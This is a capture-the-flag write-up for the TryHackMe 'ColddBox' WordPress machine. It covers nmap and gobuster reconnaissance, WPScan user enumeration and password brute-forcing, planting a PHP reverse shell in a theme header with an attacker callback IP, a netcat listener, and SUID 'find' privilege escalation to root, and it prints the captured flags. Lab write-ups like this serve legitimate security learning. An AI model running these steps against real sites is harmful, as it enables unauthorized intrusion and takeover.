


# Colddbox Write-up:
	
## Nmap Scan:
	
I started off with an NMap scan:
	
```
sudo nmap -vv -sC -sV -sS -oN nmap_out {MACHINE_IP}
```

It returned the following:
	
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
```

I also ran a more thorough nmap scan:
	
```
sudo nmap -p- -oN fullnmap {MACHINE_IP}
```

After the more thorough scan, I have the following ports:
	
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Interesting, I see that the SSH service is on port 4512.

## GoBuster

I then performed a gobuster scan to find any hidden directories (I tried a few different wordlists):
	
```
gobuster -e -t 25 -u {MACHINE_IP} -w dir_wordlist.txt -o gobuster_out -x '.html,.php,.txt,.js' -s 200,204,301,302,307
```

The scans returned the following:
	
```
http://{MACHINE_IP}/hidden (Status: 301)
http://{MACHINE_IP}/index.php (Status: 301)
http://{MACHINE_IP}/index.php (Status: 301)
http://{MACHINE_IP}/license.txt (Status: 200)
http://{MACHINE_IP}/readme.html (Status: 200)
http://{MACHINE_IP}/wp-admin (Status: 301)
http://{MACHINE_IP}/wp-blog-header.php (Status: 200)
http://{MACHINE_IP}/wp-content (Status: 301)
http://{MACHINE_IP}/wp-includes (Status: 301)
http://{MACHINE_IP}/wp-cron.php (Status: 200)
http://{MACHINE_IP}/wp-load.php (Status: 200)
http://{MACHINE_IP}/wp-config.php (Status: 200)
http://{MACHINE_IP}/wp-login.php (Status: 200)
http://{MACHINE_IP}/wp-signup.php (Status: 302)
http://{MACHINE_IP}/wp-links-opml.php (Status: 200)
http://{MACHINE_IP}/wp-trackback.php (Status: 200)
http://{MACHINE_IP}/xmlrpc.php (Status: 200)
http://{MACHINE_IP}/xmlrpc.php (Status: 200)
```

## Website Exploration:
	
I visited the main page:



Just as the URLs made me suspect, it is a WordPress site.

I looked into the page source code, and found the WordPress version number:
	
```html
<meta name="generator" content="WordPress 4.1.31" />
```

I also visited the **/hidden** directory found on the GoBuster scan. It contained the following text:
	
```
U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

It looks like we have three users: c0ldd, Hugo, and Philip. I'll certainly check to see if any of their passwords can be broken.

## WPScan, a WordPress Vulnerability Scanner:
	
I did some studying, and found that WordPress has a user enumeration vulnerability. In the process of studying, I found out about a tool called [WPScan](https://github.com/wpscanteam/wpscan). It is a vulnerability scanner designed specifically for WordPress sites. I downloaded it, then I performed a few scans:

### User Enumeration Scan:
	
The first scan I performed is for user-enumeration:

```
wpscan --url {MACHINE_IP} -e u --plugins-detection mixed
```

It returned the following:
	
```
[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Well, that seems to have made the **/hidden** directory completely useless! It has returned all the names contained in that file, and 1 more.

### WordPress Password Cracker:
	
WPScan also has a password cracking utility! Man, it just keeps getting better! 

I ran the following scan:
	
```
wpscan --url {MACHINE_IP} -P quick.txt --usernames 'c0ldd,hugo,philip' -t 50
```

It generated the following:

```
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Alright, We have a username and a password.

I then tried logging in to the **http://{MACHINE_IP}/wp-admin** page with the above credentials:
	
1[adminpage](./screenshots/adminpage.png)

I am now logged in the dashboard as **c0ldd**.

## Reverse Shell:
	
Now that I am logged in. I looked for a way of getting a reverse shell in WordPress. I found [this helpful article by Rio Suryadi.](https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell/)

1. Mouse-over **"Appearance"**, and select **"Editor"**



2. On the very right, under "Templates", select **"Header"**


3. Replace the code in the editor with a PHP reverse shell script. I'm using this one from PenTestMonkey: http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

4. Be sure to change the **$ip** to your TryHackMe VPN IP, and change the **$port** to the port your machine will be listening on.

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.221.49';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

5. Click the **"Update File"** button below the editor.

6. On your local PC, setup a NetCat listener:
	
```
sudo nc -nvlp 1234
```

7. Now open the homepage. Since the **header.php** script has been modified with a reverse-shell script, whenever a page is loaded, instead of a header, a reverse shell is established.

```
Listening on 0.0.0.0 1234
Connection received on 10.10.173.55 53182
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:38:53 up 26 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

I now have a reverse-shell! Now let's find that user flag!

I ran the following command to find the file named **"user.txt":
	
```
find / -type f -name 'user.txt' 2>/dev/null
```

It returned:
	
```
/home/c0ldd/user.txt
```

I tried to view the contents, but I got **Permission denied**.

I performed the following **find** command to find what programs had the SUID bit set:
	
```
find / -type f -perm /4000 2>/dev/null
```

I got the following:

```
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find 
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
```

I checked on [GTFOBins](https://gtfobins.github.io/) to see if any of the above programs had exploits. I found that the find command had an SUID vulnerability:
	
```
./find . -exec /bin/sh -p \; -quit
```

I moved myself to the **/usr/bin** directory, and executed the above command. This command uses the **find** program, which on this machine, runs with root privileges. It then uses the **-exec** flag to execute a bash shell. It then quits the **find** command.

After running the above command, I found myself with a root shell! Well, that's one way to get a User Flag!

Since I have root privileges, I performed **cat /home/c0ldd/user.txt**:
	
```
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

That is our User Flag!

I then ran another find command to find the root flag:
	
```
find / -type f -name 'root.txt' 
```

and got **/root/root.txt**, here are the contents:
	
```
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

That's our root flag! Thank you for reading, I hope you found this helpful.
